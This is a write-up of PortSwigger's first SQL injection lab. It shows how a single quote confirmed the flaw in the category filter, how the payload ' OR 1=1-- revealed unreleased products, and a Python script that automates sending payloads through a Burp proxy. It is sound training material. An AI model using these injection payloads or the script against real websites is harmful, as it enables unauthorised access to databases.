 ```yaml
---
title: "Portswigger SQL Injection Lab 1"
description: "SQL injection vulnerability in WHERE clause allowing retrieval of hidden data"
date: 2025-05-31T09:57:00+05:45
cheatsheet_categories: ["Labs"]
cheatsheet_tags: ["error based sql injection", "pentesting", "sql injection", "portswigger"]
folder: "sqlinjection"
draft: false
weight: 1
---
```


> This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:
  `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
   To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

---

There is a "*Refine your search*" section and when the search parameters are clicked, the URL changes as following:
`https://0a9d001d0490fb0181528e4d00d10082.web-security-academy.net/filter?category=Accessories`

### Finding SQLI
Trying SQL characters, here `'` to check if the server is vulnerable to SQLI
Changing the URL to `https://0a9d001d0490fb0181528e4d00d10082.web-security-academy.net/filter?category='` gives -> **Internal Server Error** -> SQLi existence confirmed

### Attacking
Using the SQLi `' OR 1=1--` results in the following query:
```sql
SELECT * FROM products WHERE category = '' OR 1=1 --' AND released = 1
```
Since 1=1 always results to true, this will make the database display all the products

 **Used payload ->** `' OR 1=1--` 

---

# Pythonizing for Automating 
```python
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

#Dictionary for proxies like burp
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'} 

def url_exploit(url,payload):
    uri = "/filter?category="
    req=requests.get(url + uri +payload, verify=False, proxies = proxies)
    if "Safety First" in req.text:
        return True
    else:
        return False

if __name__== "__main__":
    try:
        url = sys.argv[1].strip()
        payload = sys.argv[2].strip()
    except IndexError:
        print(f"[ - ] Usage: {sys.argv[0]} <url> <payload>")
        sys.exit(-1)
           
    if url_exploit(url, payload):
        print("Successful")
    else:
        print("Unsuccessful")     
```